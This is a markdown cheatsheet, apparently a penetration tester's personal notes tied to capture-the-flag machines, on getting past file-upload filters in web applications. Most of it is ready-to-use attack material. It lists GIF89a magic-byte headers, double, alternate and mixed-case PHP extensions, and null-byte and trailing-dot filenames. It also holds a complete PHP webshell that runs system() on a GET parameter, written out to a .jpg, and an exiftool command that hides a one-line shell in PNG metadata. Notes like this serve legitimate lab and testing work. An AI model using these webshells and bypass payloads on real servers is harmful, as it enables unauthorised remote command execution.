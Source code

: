 ```yaml
---
title: Cheatsheet - Upload Bypass
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/file-upload-bypass]
img_path: /Cheatsheet/Web/Upload bypass/images
---
```



# Magic Bytes; header
![](Pasted%20image%2020220415215405.png)
- if uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
	```
	GIF89a;
	```
- Some Examples:
	- [[PwnLab#Port 80]]

# Append the allowed extension
- If only `.png` allowed, try appending `.png` at the end
- Try both ways
	```
	.php.png
	.png.php
	```
	- Some Examples:
		- [[fristileaks#Port 80]]

# Other PHP Extensions
```
php1
php2
php3
php4
php5
phptml
```
- Some Examples
	- [[RootMe#key 1]]
	- vulnversity writeup

# Case Sensitive Extensions
```
shell.pHP
shell.PhP
shell.pHP4
shell.PhPtml
shell.phP5
```


# Insert .jpg webshell
- Requires LFI to work
	```
	cat > bingchilling.jpg <<EOF
	<html>
	<body>
	<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
	<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
	<input type="SUBMIT" value="Execute">
	</form>
	<pre>
	<?php
		if(isset($_GET['cmd']))
		{
			system($_GET['cmd']);
		}
	?>
	</pre>
	</body>
	</html>
	EOF
	```
	```
	<?php system($_GET['cmd']); ?>  //shell.php
	exiftool "-comment<=shell.php" malicious.png
	strings malicious.png | grep system
	```
- Some Examples:
	- [[port 8001|hackerOne - Easy Port 8001]]

# Nullbyte
```
shell.jpeg%00.php
shell.png%00.php
```

# Trailing (Windows)
- Adding `.` to the end
	```
	shell.aspx.
	shell.php.
	shell.exe.
	```
	
# Exiftool:
- If web application is accepting uploaded files which are passed to exiftool, can, in turn lead to RCE.
- https://hackerone.com/reports/1154542

# RCE via filename
![](Pasted%20image%2020220415215647.png)

# Use burpsuite to find bypass
![](uploadBypass php extension.png)
![](uploadBypass payloads.png)
![](uploadBypass position.png)
![](uploadBypass Results.png)

# Sources:
https://www.onsecurity.io/blog/file-upload-checklist/

